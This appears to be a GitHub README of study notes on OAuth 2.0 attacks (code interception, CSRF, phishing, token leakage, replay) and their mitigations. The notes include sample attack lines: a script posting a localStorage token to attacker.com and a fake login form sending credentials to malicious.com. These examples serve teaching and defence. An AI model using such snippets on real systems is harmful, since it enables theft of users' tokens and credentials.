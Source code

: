 # OAUTH AND OAUTH 2.0

## OAUTH:
OAuth is an open standard for access delegation, allowing third-party applications to obtain limited access to user resources on a server without sharing credentials, enhancing security and user experience.

## OAUTH 2.0:
OAuth 2.0 is an authorization framework that enables third-party applications to obtain limited access to user resources on a server, using access tokens without sharing user credentials, enhancing security.

## DIffernce between oauth and oauth2.0:
OAuth 1.0 is a protocol for secure delegated access, requiring complex signatures. OAuth 2.0 simplifies the process, using tokens and providing better support for web and mobile applications.

## Methods to perform oauth
- ### Authorization Code Interception:

Attackers can intercept the authorization code during the OAuth flow if the redirect URI is not properly validated.
Example:

An attacker sets up a malicious redirect URI and tricks the user into authorizing the application. The attacker captures the authorization code and exchanges it for an access token.
plaintext
```text
GET /oauth/authorize?response_type=code&client_id=attacker_client_id&redirect_uri=http://malicious.com/callback
```
- ### Cross-Site Request Forgery (CSRF):

If the application does not implement anti-CSRF measures, attackers can trick users into authorizing an application without their consent.
Example:

An attacker crafts a link that initiates the OAuth flow:
```text
<a href="http://example.com/oauth/authorize?client_id=attacker_client_id&redirect_uri=http://malicious.com/callback">Authorize</a>
```
- ### Token Theft via Phishing:

Attackers can create a phishing site that mimics the legitimate OAuth provider to steal access tokens.
Example:

A user is directed to a fake login page that looks like the legitimate OAuth provider:
```text
<form action="http://malicious.com/steal_token" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```
- ### Access Token Leakage:

If access tokens are stored insecurely (e.g., in local storage), they can be stolen via XSS attacks.
Example:
```text
// Malicious script to steal token
const token = localStorage.getItem('access_token');
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token }),
    headers: { 'Content-Type': 'application/json' }
});
```
- ### Using Refresh Tokens:

Attackers can exploit refresh tokens if they are not properly secured, allowing them to obtain new access tokens.
Example:

If a refresh token is stolen, the attacker can use it to request new access tokens:
```
POST /oauth/token HTTP/1.1
Content-Type: application/x-www-form-urlencoded

grant_type=refresh_token&refresh_token=<stolen_refresh_token>&client_id=attacker_client_id
```
- ### Open Redirect Vulnerabilities:

If the OAuth provider does not validate redirect URIs properly, attackers can redirect users to malicious sites.
Example:

```text
GET /oauth/authorize?client_id=legitimate_client_id&redirect_uri=http://malicious.com/callback
```
- ### Scope Manipulation:

Attackers can manipulate the requested scopes to gain more access than intended if the server does not validate them properly.
Example:

```text
GET /oauth/authorize?response_type=code&client_id=legitimate_client_id&scope=read,write,admin
```
- ### Token Replay Attacks:

If access tokens are not properly invalidated after use, attackers can replay them to gain unauthorized access.
Example:
```text
GET /api/resource HTTP/1.1
Authorization: Bearer <stolen_access_token>
```

## MITIGATION OF OAUTH2.0

### 1. Use Secure Redirect URIs
- Validation: Always validate redirect URIs against a whitelist of pre-registered URIs. This prevents open redirect vulnerabilities.
- Exact Match: Ensure that the redirect URI matches exactly, including the scheme (HTTP/HTTPS), domain, and path.
### 2. Implement State Parameter
- CSRF Protection: Use the state parameter to maintain state between the authorization request and the callback. This helps prevent CSRF attacks by ensuring that the response is from the original request.
- Random Value: Generate a random value for the state parameter and validate it upon receiving the response.
### 3. Use PKCE (Proof Key for Code Exchange)
- Enhance Security: Implement PKCE for public clients (e.g., mobile apps) to prevent authorization code interception attacks. PKCE adds an additional layer of security by requiring a code verifier and code challenge.
- Code Challenge: The client generates a code challenge and sends it with the authorization request. The server verifies it when exchanging the authorization code for an access token.
### 4. Limit Scope and Permissions
- Principle of Least Privilege: Request only the necessary scopes for the application. Avoid requesting broad scopes that grant excessive permissions.
- User Consent: Clearly inform users about the permissions being requested and allow them to grant or deny specific scopes.
### 5. Secure Token Storage
- Use Secure Storage: Store access tokens and refresh tokens securely. For web applications, use HttpOnly and Secure flags for cookies. For mobile applications, use secure storage mechanisms.
- Avoid Local Storage: Do not store tokens in local storage, as they are vulnerable to XSS attacks.
### 6. Implement Short-Lived Access Tokens
- Token Expiration: Use short-lived access tokens to limit the impact of token theft. Implement refresh tokens to allow users to obtain new access tokens without re-authentication.
- Revocation: Provide a mechanism to revoke tokens when necessary, such as when a user logs out or changes their password.
### 7. Use Strong Client Authentication
- Client Secrets: For confidential clients, use strong client secrets and rotate them regularly. Avoid hardcoding secrets in the application code.
- Public Clients: For public clients (e.g., mobile apps), consider using PKCE to enhance security.
### 8. Monitor and Log OAuth Activities
-Logging: Implement logging for OAuth-related activities, including authorization requests, token exchanges, and revocations. Monitor logs for suspicious activities.
- Alerts: Set up alerts for unusual patterns, such as multiple failed login attempts or token reuse.

